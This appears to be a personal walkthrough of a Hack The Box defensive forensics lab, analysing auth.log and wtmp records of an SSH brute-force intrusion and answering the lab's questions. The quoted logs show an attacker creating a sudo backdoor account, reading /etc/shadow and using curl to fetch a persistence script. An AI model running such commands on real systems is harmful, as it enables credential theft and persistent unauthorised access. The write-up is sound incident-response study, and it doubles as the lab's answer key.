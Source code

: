In this scenario we get told “you will familiarize yourself with Unix auth.log and wtmp logs”

it mentions:

→a Confluence server was brute-forced via its SSH service

→The attacker performed additional activies in auth.log

we’ll see also privesc, persistence and Command Execution.

 

I will first download the zip file and analyse the readme.

*wget linktothefile*

password : hacktheblue

—> no readme file 

auth.log : we will check which commands been used from the malicious intruder

[utmp.py](http://utmp.py) : *after googling* seems like it helps reading wtmp files. might be HTB helping us there.

`On Linux the wtmp and btmp files are usually located in the /var/log/ directory.`

`The utmp.read function decodes a binary utmp/wtmp stream and yields record objects`

wtmp : https://fr.wikipedia.org/wiki/Wtmp

keep trace of login/out on the system looks like we can cat the file

### auth.log

looking at the file we see theses commands :

```xml
Mar  6 06:19:52 ip-172-31-35-28 sshd[1465]: AuthorizedKeysCommand /usr/share/ec2-instance-connect/eic_run_authorized_keys root SHA256:4vycLsDMzI+hyb9OP3wd18zIpyTqJmRq/QIZaLNrg8A failed, status 22
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:19:54 ip-172-31-35-28 systemd-logind[411]: New session 6 of user root.
Mar  6 06:19:54 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user root(uid=0) by (uid=0)
```

after some CRON and some bruteforce

```xml
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
[...]
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
[...]
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

Once he created a super user, as this super user

```xml
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: pam_unix(sshd:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
Mar  6 06:37:34 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
[...]
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

The intruder finally manage to get access to the system. and create a new user on which it will grant sudo rights. this can be considered as a “backdoor” since even if the password for root is changed. the malautru will be able to gain access till this account won’t be deleted.

### wtmp file

`python [utmp.py](http://utmp.py/) -o wtmpTMP wtmp`

Using the python file to read wtmp file we get this file :

![image.png](attachment:0aed727b-6cb9-47a7-826e-7d19481ab0ec:image.png)

we could print this table in different manner so it appears to us properly.

since many informations are there. we will start to answer questions to understand better how they wanna lead us.

Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

65.2.161.68 

*simply check for login attemps that didn’t go in auth.log.*

The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

root

*“accepted password for root”*

Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

2024/03/06 01:32:45

*cross information with auth.log to get when it could connect manually*

SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

we don’t look for the bot ID connection. but the malicious guy behind it.

![image.png](attachment:8bc7321a-c1b0-42d4-934f-54f04ec1905c:image.png)

37

The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

cyberjunkie

*mentionned above*

What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

Googled : 

—>MITRE att&ck group elevation persistence

4th link : https://attack.mitre.org/techniques/T1548/

ctrl+f “group”

https://attack.mitre.org/mitigations/M1026/

[…]

after some research check for persistence : 

![image.png](attachment:1f13d46b-408f-4cc1-b217-218e759027bb:image.png)

T1136.001

What time did the attacker's first SSH session end according to auth.log?

2024-03-6 06:37:24 (id 37)

2024-03-6 06:31:40 (id 34)

The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh